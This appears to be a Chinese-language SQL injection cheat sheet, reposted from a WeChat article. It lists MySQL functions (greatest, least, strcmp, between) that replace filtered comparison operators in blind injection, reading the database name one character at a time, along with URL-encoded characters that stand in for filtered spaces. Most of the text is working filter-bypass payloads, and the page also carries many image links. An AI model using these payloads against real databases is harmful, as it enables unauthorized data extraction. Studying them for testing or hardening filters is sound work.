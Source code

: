 # <>大于小于号绕过  
- greatest(n1, n2, n3…):返回n中的最大值  
- 数据库第一个字符为t，ascii编码为116：SELECT * from test where test=123 and greatest(ascii(substr(database(),1,1)),1)=116  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjGvfMISTON8dcpJUicDn0xNBSEyOfWJKWgcUqdQnJjDgxn4pbkS26Ygw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjPqKgFic86pJ0HXlrxRemj1LlLJMlWgoczya76KgWUTagvibvnsDZfSZw/640?wx_fmt=png&from=appmsg "")  
- least(n1,n2,n3…):返回n中的最小值（ASCII最大值为127）  
- 数据库第一个字符为t，ascii编码为116：SELECT * from test where test=123 and least(ascii(substr(database(),1,1)),200)=116  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjfNGRHaAxrfAFwycicKSL1q2nBV3rO7fwc8WeeibaJyLuk9QWDpKW5exA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjQ5CcYUJroE7RjlyiaE2dncDuibwqJW6se9jrCnpDlMJBoASiblkOibwb4w/640?wx_fmt=png&from=appmsg "")  
- strcmp(str1,str2)：若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1  
- SELECT * from test where test=123 AND strcmp(CAST(ASCII(SUBSTR(DATABASE(), 1, 1)) AS CHAR), '116') = 0  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjHncnSiaLcLheCQ0ZkmFb941jI73tUwiabzZAibcRsibKibpTnKDoTrpPrlg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjuTQMrMSI1LQpjJZU7gjN3yNUDUhuVQjmhZCEiaemewCUyppFB41BTqQ/640?wx_fmt=png&from=appmsg "")  
- in关键字：SELECT * from test where test=123 AND ASCII(SUBSTR(DATABASE(),1,1)) = 116  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjyu3UsFibGoVofmiccmYRAoiaHrGTcvZuc7YCJ2uCD5X3DVSPtibCSMaqWQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGj0feeoIxxq8PIeZJ0jmXqibh8oHMC9ARnF9VyoElvRGibqxZRysHZl6PQ/640?wx_fmt=png&from=appmsg "")  
- between a and b:范围在a-b之间（不包含b）  
- SELECT * from test where test=123 AND ASCII(SUBSTR(DATABASE(), 1, 1)) BETWEEN 115 AND 117  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjkB3mFQ3Oa8TxSf0moZV1VJx13gG6BrM8aAKV6iabWdl08MjumYwicicDQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjxzDLNLo4q5jWZFqVCZRyKGCvJh2snSk83C8b3SyRBvW2YZznEvOibHQ/640?wx_fmt=png&from=appmsg "")  
# 空格绕过  
- %0a  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjZAjpIDcmRDhuZ5Hznxticcr4W5X9dH6SXrX5OKibVXestLns3SnrT18A/640?wx_fmt=png&from=appmsg "")  
- %09  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjJdG2SlSqbUMjRgSAkrCeBycZVlBhMYa20kAQ9uvseeibLtbrJAdFQww/640?wx_fmt=png&from=appmsg "")  
- %0d  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjVVwbj6LMYVgTbjXhPSyRCXGT6g3lQHo3c629ibm7hnDZ9GzlSptUl1g/640?wx_fmt=png&from=appmsg "")  
- %0b  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjblTIhrs1agaPhOdFufBmwHtwBk1HyQarC4tOA7nTEibnEkHb2lHv7Iw/640?wx_fmt=png&from=appmsg "")  
- %0c  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjGertI3c3sBE35LVURgwA4e192HiaHjLsuBAfpVm4NdJnX2vCmdSq6VA/640?wx_fmt=png&from=appmsg "")  
- %20  
  